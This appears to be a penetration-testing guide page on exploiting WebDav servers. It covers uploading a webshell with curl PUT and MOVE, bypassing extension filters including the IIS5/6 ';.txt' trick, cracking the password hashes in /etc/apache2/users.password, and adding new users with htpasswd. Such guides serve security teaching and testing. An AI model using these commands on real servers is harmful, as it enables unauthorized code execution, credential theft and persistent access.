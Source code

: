 # WebDav

A **HTTP Server with WebDav** active is a server where you probably can **update, delete, move, copy** files. **Sometimes** you **need** to have **valid credentials** \(usually check with HTTP Basic Authentication\).

You should try to **upload** some **webshell** and **execute** it from the web server to take control over the server.  
Usually, to **connect** a WebDav server you will need valid **credentials**: [**WebDav bruteforce**](../../brute-force.md#http-basic-auth) _\*\*\(Basic Auth\)_.

Other common configuration is to **forbid uploading** files with **extensions** that will be **executed** by the web server, you should check how to **bypass this:**

* **Upload** files with **executable extensions** \(maybe it's not forbidden\).
* **Upload** files **without executable extensions** \(like .txt\) and try to **rename** the file \(move\) with an **executable extension**.
* **Upload** files **without executable extensions** \(like .txt\) and try to **copy** the file \(move\) with **executable extension.**

## DavTest

**Davtest** try to **upload several files with different extensions** and **check** if the extension is **executed**:

```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```

Output sample:

![](../../.gitbook/assets/image%20%28169%29.png)

This doesn't mean that **.txt** and **.html extensions are being executed**. This mean that you can **access this files** through the web.

## Cadaver

You can use this tool to **connect to the WebDav** server and perform actions \(like **upload**, **move** or **delete**\) **manually**.

```text
cadaver <IP>
```

## PUT request

```text
curl -T 'shell.txt' 'http://$ip'
```

## MOVE request

```text
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```

## IIS5/6 WebDav Vulnerability

This vulnerability is very interesting. The **WebDav** does **not allow** to **upload** or **rename** files with the extension **.asp**. But you can **bypass** this **adding** at the end of the name **";.txt"** and the file will be **executed** as if it were a .asp file \(you could also **use ".html" instead of ".txt"** but **DON'T forget the ";"**\).

Then you can **upload** your shell as a ".**txt" file** and **copy/move it to a ".asp;.txt"** file. An accessing that file through the web server, it will be **executed** \(cadaver will said that the move action didn't work, but it did\).

![](../../.gitbook/assets/image%20%28259%29.png)

## Post credentials

If the Webdav was using an Apache server you should look at configured sites in Apache. Commonly:  
_**/etc/apache2/sites-enabled/000-default**_

Inside it you could find something like:

```text
ServerAdmin webmaster@localhost
        Alias /webdav /var/www/webdav
        <Directory /var/www/webdav>
                DAV On
                AuthType Digest
                AuthName "webdav"
                AuthUserFile /etc/apache2/users.password
                Require valid-user
```

As you can see there is the files with the valid **credentials** for the **webdav** server:

```text
/etc/apache2/users.password
```

Inside this type of files you will find the **username** and a **hash** of the password. These are the credentials the webdav server is using to authenticate users.

You can try to **crack** them, or to **add more** if for some reason you wan to **access** the **webdav** server:

```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```

To check if the new credentials are working you can do:

```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```

